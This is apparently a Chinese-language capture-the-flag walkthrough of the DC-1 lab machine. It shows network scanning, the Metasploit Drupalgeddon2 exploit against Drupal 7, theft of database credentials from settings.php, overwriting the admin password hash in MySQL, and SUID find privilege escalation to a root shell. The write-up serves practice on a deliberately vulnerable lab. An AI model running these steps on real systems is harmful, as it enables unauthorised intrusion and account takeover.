

# DC - 1

---

# 一、环境搭建

---

下载靶机文件解压后使用VMware打开，导入靶机后调整网络连接跟攻击机kali相同的模式（我这里是NAT模式）

​​

---

# 二、通关教程

---

先使用arps-scan扫描内网存在的IP，也就是靶机的IP，使用的命令如下

```bash
arp-scan -l 
```

​​

由扫描结果可以看到靶机的IP地址为192.168.225.133，接下来使用nmap对靶机进行端口扫描，使用命令如下

```bash
nmap -A -T4 -sS 192.168.255.133
```

扫描结果如下

​​

由于靶机开启了80端口（HTTP服务），所以先使用浏览器访问该服务，在浏览器输入靶机的IP即可成功访问

​​

使用浏览器插件wapplayer对靶机进行CMS识别，结果如下

​​

通过识别结果可以得到靶机的CMS为Drupal7，使用metasploit搜说该CMS的相关漏洞，先启动metasploit，命令如下：

```bash
msfconsole
```

​​

搜索相关漏洞，命令如下

```bash
search Drupal
```

​​

这里通过测试发现只有第二个payload可以使用，使用第二个payload对靶机进行渗透，使用命令如下

```bash
use 1
# 或者 use exploit/unix/webapp/drupal_drupalgeddon2 
```

然后进行参数配置，先查看配置参数再进行相关配置，相关命令如下

```bash
show options
set RHOSTS 192.168.225.133
exploit
```

​​

​​

成功返回shell后查看靶机该目录存在的文件，发现flag1.txt文件，结果如下：

​​

使用python创建一个交互式shell，使用命令如下

```bash
shell #先返回一个简单的shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

​​

查看该目录下的flag1.txt的内容，结果如下

​​

提示我们查看配置文件，通过查询可知该cms的配置文件的目录如下

```bash
 /sites/default/settings.php
```

读取该文件的内容如下

​​

可以看的成功得到数据库的用户名和密码，登录该数据库，由于前端有登录界面，所以查看用户登录数据有关的数据表即可，使用的命令如下

```bash
mysql -udbuser -pR0ck3t
show databases;
use drupaldb
show tables;
```

​​

```bash
select * from users\G;
```

​​

发现有账号密码，但是密码加盐，爆破和查询都没办法解密。我们换个思路，往里面插入数据修改账号密码（drupal存在加密脚本，找到脚本后利用加密脚本加密）,脚本的目录如下

```bash
/var/www/scripts
```

使用脚本对自己要修改的密码进行加密，使用命令如下

```bash
php scripts/password-hash.sh 123456
```

​​

得到加密后的密码， 接着我们登入mysql修改一下admin的密码，使用命令如下

```bash
mysql -udbuser -pR0ck3t
use drupaldb;
update users set pass = "$S$DUnAAngtcGxNZSnVZC8bh5tMCM5i4AhEEkWoRFz6ki5XK8X/dFv7" where name = 'admin';
```

​​

回到浏览器，使用admin和123456成功登录，在网页上成功找到flag3，如下

​​

特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取阴影中的内容。flag3中有两个特别的大写字母 perms 和 find ，根据此前 flag 的形式，使用 find / -name "flag*" 搜索所有开头为 flag 的文件。

​​

成功找到 flag4.txt ，使用 cat /home/flag4/flag4.txt 进行查看。

​​

flag4提示我们要提权，根据flag3 中另外一个大写字母 perms ，猜测可能需要使用 SUID 提权，使用 find / -user root -perm -4000 -print 2>/dev/null 查找所有具有 SUID 权限且属主为 root 的文件。

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

​​

find比较常用，可以执行root权限的命令找查文件，

```bash
find / -name index.php -exec "/bin/sh" \;
```

​​

​​

‍
